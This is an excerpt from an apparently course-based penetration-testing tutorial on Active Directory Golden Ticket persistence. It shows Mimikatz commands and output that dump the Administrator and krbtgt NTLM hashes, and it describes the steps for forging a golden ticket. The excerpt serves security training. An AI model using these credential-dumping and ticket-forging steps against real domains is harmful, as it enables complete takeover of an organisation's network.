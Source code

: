 If we are able to get our hands on the _krbtgt_ password hash, we could create our own self-made custom TGTs, also known as _golden tickets_.

Although this technique's name resembles the Silver Ticket one that we encountered in the Attacking Authentication Module, Golden Tickets provide a more powerful attack vector. While Silver Tickets aim to forge a TGS ticket to access a _specific_ service, Golden Tickets give us permission to access the _entire_ domain's resources, as we'll see shortly.

```shell
C:\Tools\SysinternalsSuite>PsExec64.exe \\DC1 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldnt access DC1:
Access is denied.

C:\Tools\SysinternalsSuite>.\Mimikatz.exe

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch
Domain : CORP / S-1-5-21-1987370270-658905905-1781884369

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2892d26cdf84d7a70e2eb3b9f05c425e

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 1693c6cefafffc7af11ef34d1c788f47
```

Having obtained the NTLM hash of the _krbtgt_ account, along with the domain SID, we can now forge and inject our golden ticket. Creating the golden ticket and injecting it into memory does not require any administrative privileges and can even be performed from a computer that is not joined to the domain. We'll take the hash and continue the procedure from a compromised workstation.

Back on CLIENT74 as the _jen_ user, before generating the golden ticket, we'll launch mimikatz and delete any existing Kerberos tickets with **kerberos::purge**.

We'll supply the domain SID (which we can gather with **whoami /user**) to the Mimikatz **kerberos::golden** command to create the golden ticket. This time, we'll use the **/krbtgt** option instead of **/rc4** to indicate we are supplying the password hash of the _krbtgt_ user account. Starting July 2022,[6](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/lateral-movement-in-active-directory/active-directory-persistence/golden-ticket#fn6) we'll need to provide an existing account, so let's set the golden ticket's username to **jen**.

